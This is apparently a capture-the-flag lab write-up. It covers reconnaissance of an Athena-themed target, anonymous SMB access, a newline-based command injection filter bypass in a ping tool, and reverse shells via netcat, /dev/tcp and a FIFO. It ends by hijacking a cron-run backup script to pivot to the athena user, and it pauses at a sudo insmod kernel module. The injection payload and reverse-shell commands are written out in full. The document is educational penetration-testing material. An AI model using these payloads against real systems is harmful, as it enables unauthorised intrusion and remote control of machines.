









## Scenario

> Are you capable of mastering the entire system and exploiting all vulnerabilities?
> 
> Note: Please allow the machine 2 - 3 minutes to fully boot.

## Reconnaissance

I started with a full TCP port sweep to make sure nothing outside the default top-1000 ports was missed.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.184.58 -p- -T4

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-19 01:07 +0200
Nmap scan report for 10.113.184.58
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 19.61 seconds
```

This confirmed four open ports: SSH, HTTP, and two SMB-related ports (139/445). I followed up with a targeted service/version scan against just those four.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.184.58 -p22,80,139,445 -sV -sC

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-19 01:09 +0200
Nmap scan report for 10.113.184.58
Host is up (0.034s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time:
|   date: 2026-11-18T23:09:57
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

The HTTP title gave away the room's theme, so I checked the site in a browser. It turned out to be a static page about the goddess Athena, with no interactive elements or obvious attack surface.


With port 80 a dead end for anything dynamic, SMB was the only service left worth pursuing.

## SMB Enumeration

I checked for anonymous share listing first.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient -L //10.113.184.58 -N

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.113.184.58 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Anonymous login succeeded and revealed a `public` share. The SMB1 workgroup-listing failure underneath is just the server refusing the legacy SMB1 fallback nmap/smbclient tries for workgroup discovery — it didn't affect the share listing itself, which had already come back clean.

I connected into the `public` share with the same anonymous credentials.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient //10.113.184.58/public -N

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 03:54:43 2023
  ..                                  D        0  Mon Apr 17 03:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 21:59:44 2023

		19947120 blocks of size 1024. 9693200 blocks available
smb: \> get msg_for_administrator.txt

getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> !cat msg_for_administrator.txt

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

The note pointed to a hidden web path, `/myrouterpanel`, which nmap's web scan hadn't surfaced.

## Web Application Enumeration

Browsing to `/myrouterpanel` landed on a "Simple Router Panel" page containing a Ping Tool.



I entered `127.0.0.1` into the field to see how the tool behaved normally.



Submitting redirected to `ping.php`, which returned a normal ping result:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3050ms
rtt min/avg/max/mdev = 0.019/0.024/0.028/0.003 ms
```



A field that shells out to `ping` with user-controlled input is a classic OS command injection candidate, so I tried chaining a second command with a semicolon.



This was caught outright, returning a generic block message instead of any ping or command output:


The semicolon getting blocked meant the application was actively checking the input. Testing this properly through the raw HTTP request, rather than the form, would make iterating on bypasses much faster.

## Command Injection via Burp Suite

### Switching to Burp

I resubmitted the ping request and caught it in Burp's HTTP history and sent this to Repeater to iterate on the  `ip` parameter directly.



### Testing Injection Payloads


Blocked, same as the semicolon. I then tried `&` and `&&` (with their URL-encoded forms) directly as separators — these were blocked identically, confirming the filter was catching the common shell metacharacters as a set, not just `;`.

#### Literal Backslash-n

**Payload:** `ip=127.0.0.1\nid&submit=`



This wasn't blocked by the "Attempt hacking!" filter, but it also wasn't a successful injection — it returned a different failure message instead. My read at the time was that the two literal characters `\` and `n` had been accepted as part of the `ip` value (since neither is in the blocked-character set), but then broke `ping`'s own argument parsing, rather than being interpreted as a line break by the shell.

#### URL-Encoded Newline (Success)

**Payload:** `ip=127.0.0.1%0Aid&submit=`



This confirmed the mechanism: the application's filter blocked `;`, `|`, `&`, and `&&`, but not an actual newline byte. Bash still treats a newline as a command separator, so appending `%0A` followed by a second command let both the original `ping` and the injected `id` run in sequence, with both outputs returned in the response. This also confirmed the web server was running as `www-data`.

## Gaining a Reverse Shell

I checked that `nc` was available on the target through the same injection point and confirmed it was present. With that, the newline-based injection was enough to launch a reverse shell. I started a listener on port 80 (using `sudo` since binding below 1024 requires root):

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nc -lvnp 80

listening on [any] 80 ...
```

I then sent the injected payload:



**Payload:** `ip=127.0.0.1%0Anc+—REDACTED—+80+-c+/bin/bash&submit=`

The `-c` flag tells this build of netcat to execute `/bin/bash` and pipe its input/output through the connection, giving an interactive shell rather than just a raw data pipe

This connected back to the listener:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.184.58] 47372
whoami
www-data
```

### Shell Stabilisation

```shell
www-data@routerpanel:/var/www/html/myrouterpanel$ which python
which python3
/usr/bin/python3
www-data@routerpanel:/var/www/html/myrouterpanel$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@routerpanel:/var/www/html/myrouterpanel$ ^Z

zsh: suspended  sudo nc -lvnp 80

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg

[1]  + continued  sudo nc -lvnp 80

www-data@routerpanel:/var/www/html/myrouterpanel$ export TERM=tmux-256color
www-data@routerpanel:/var/www/html/myrouterpanel$ stty rows 52 cols 236
```

## Enumeration as www-data

I looked for the user flag directly first:

```shell
www-data@routerpanel:/var/www/html/myrouterpanel$ find / -type f -name *user*.txt 2>/dev/null
www-data@routerpanel:/var/www/html/myrouterpanel$ find / -type f -name *flag*.txt 2>/dev/null
```


Both came back empty — no flag sitting under an obvious name yet. I checked `sudo` access next, assuming it was worth ruling out early:

```shell
www-data@routerpanel:/var/www$ sudo -l

[sudo] password for www-data:
```

This prompted for a password `www-data` didn't have, so that path was dead. Given the room's theme, I checked whether a user named after Athena existed:

```shell
www-data@routerpanel:/var/www$ cat /etc/passwd | grep -i athena

athena:x:1001:1001::/home/athena:/bin/bash
```

With a confirmed target user, I checked for SUID binaries and cron jobs owned by her:

```shell
www-data@routerpanel:/var/www$ find / -perm -04000 -user athena -type f 2>/dev/null
www-data@routerpanel:/var/www$ find / -type f -name *cron* -user athena 2>/dev/null
```

**Breakdown:**

- `-perm -04000` matches files with the SUID bit set (04000 is the octal SUID permission bit; the leading `-` means "at least these bits", matching regardless of the rest of the permission bits)
- `-user athena` restricts matches to files owned by `athena`
- the second command adds `-name *cron*`, matching filenames containing "cron"

Both empty. I widened the search to every file owned by her at all:

```shell
www-data@routerpanel:/var/www$ find / -type f -user athena 2>/dev/null
```

This also came back empty, which was puzzling at the time given a user directory existed. I dropped the `-type f` filter to check for directories as well:

```shell
www-data@routerpanel:/var/www$ find / -user athena 2>/dev/null

/home/athena
/usr/share/backup
```

**Breakdown:**
- `find / -user athena 2>/dev/null` as above, but without `-type f` this time, so it also matches directories owned by `athena`, not just regular files

This returned her home directory, unsurprisingly, plus `/usr/share/backup` — a directory the earlier file-only search had been silently skipping, since it's itself a directory rather than a file. I went straight there:

```shell
www-data@routerpanel:/var/www$ cd /usr/share/backup
www-data@routerpanel:/usr/share/backup$ ls -la

total 20
drwxr-xr-x   2 athena   www-data  4096 May 28  2023 .
drwxr-xr-x 236 root     root     12288 May 26  2023 ..
-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh
```

`backup.sh` is owned by `www-data` with `athena` as its _group_, not its owner — which is why the earlier `-user athena` search missed it. The containing directory is owned by `athena`, but since that search used `-type f`, the directory itself was never going to match regardless.

```shell
www-data@routerpanel:/usr/share/backup$ cat backup.sh

#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

## Privilege Escalation to athena

The permissions on `backup.sh` are `755` — owner (`www-data`) has read/write/execute, while group (`athena`) and everyone else only have read/execute. Since the shell was running as `www-data`,  I had write access to the script through ownership. Given the script's contents reference `/home/athena`, something was presumably running it on a schedule as `athena` — a cron job I hadn't located directly, but one whose existence the eventual result confirmed. Overwriting the script with a reverse shell payload meant whatever ran it next would hand that shell to us as whichever user triggered it.

My first attempt used `/dev/tcp`:

```shell
www-data@routerpanel:/usr/share/backup$ echo 'bash -i >& /dev/tcp/—REDACTED—/8080 0>&1' > backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh

bash -i >& /dev/tcp/—REDACTED—/8080 0>&1
```

Starting a listener on 8080 failed, since Burp's proxy was already bound to that port on my end:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8080

retrying local 0.0.0.0:8080 : Address already in use
retrying local 0.0.0.0:8080 : Address already in use
```

I moved to port 8000 instead and updated the payload to match:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8000

listening on [any] 8000 ...
```

```shell
www-data@routerpanel:/usr/share/backup$ echo 'bash -i >& /dev/tcp/—REDACTED—/8000 0>&1' > backup.sh
www-data@routerpanel:/usr/share/backup$ ./backup.sh

./backup.sh: connect: Connection refused
./backup.sh: line 1: /dev/tcp/—REDACTED—/8000: Connection refused
```

Refused, despite the listener being up and the port matching. I tried wrapping the payload in an explicit subshell in case something about the script's own execution context was interfering:

```shell
www-data@routerpanel:/usr/share/backup$ echo 'bash -c "bash -i >& /dev/tcp/—REDACTED—/8000 0>&1"' > backup.sh
www-data@routerpanel:/usr/share/backup$ ./backup.sh

bash: connect: Connection refused
bash: /dev/tcp/—REDACTED—/8000: Connection refused
```

Same result, ruling out the wrapping as the cause. I switched to a FIFO-based reverse shell instead, in case the `/dev/tcp` approach specifically was being interfered with:

```shell
www-data@routerpanel:/usr/share/backup$ echo 'rm -f /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc —REDACTED— 8000 > /tmp/f' > backup.sh
www-data@routerpanel:/usr/share/backup$ ./backup.sh

(UNKNOWN) [—REDACTED—] 8000 (?) : Connection refused
```

This also reported "Connection refused" at the moment it ran. Checking the listener independently afterwards, however, showed a connection had in fact come through at some point:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8000

listening on [any] 8000 ...
connect to [—REDACTED—] from (UNKNOWN) [10.113.184.58] 38358
bash: cannot set terminal process group (1831): Inappropriate ioctl for device
bash: no job control in this shell
athena@routerpanel:/$
```

I don't have a clear explanation for why the connection reported as refused at the time it was triggered but still landed. Either way, the shell came back as `athena`, which confirmed something was indeed executing `backup.sh` under her account.

I stabilised this shell the same way as the earlier one (upgrading to a PTY via `python3 -c 'import pty;pty.spawn("/bin/bash")'` and matching the terminal type and size).

## Root Path Discovery (Paused)

With a shell as `athena`, the user flag was straightforward to locate:

```shell
athena@routerpanel:/$ find / -type f -name *user*.txt 2>/dev/null

/home/athena/user.txt
athena@routerpanel:/$ cat /home/athena/user.txt

—REDACTED—
```

### Question — What is the user flag?

**Answer:** `—REDACTED—`

## Privilege Escalation to root

I then checked her sudo privileges:

```shell
athena@routerpanel:/$ sudo -l

Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

The output shows `athena` can run `/usr/sbin/insmod /mnt/.../secret/venom.ko` as root, with `NOPASSWD` meaning no password is required for it

I wasn't familiar with `insmod`, so I looked it up. It loads a compiled kernel module (a `.ko` file) directly into the running kernel, without going through a package manager or the dependency resolution `modprobe` handles — it just inserts the module as given. Since a kernel module runs with full kernel privileges, one that's been built maliciously can do things like spawn a root shell, hide processes, or otherwise backdoor the system the moment it's loaded. 

## To be Continued

Exploiting this properly would mean understanding how `venom.ko` is built and reverse-engineering what it actually does on load — territory that overlaps with rootkiting and kernel-level reverse engineering, both well beyond my wheelhouse. Therefore, I decided to put this on pause here and return once I've learned this area properly. 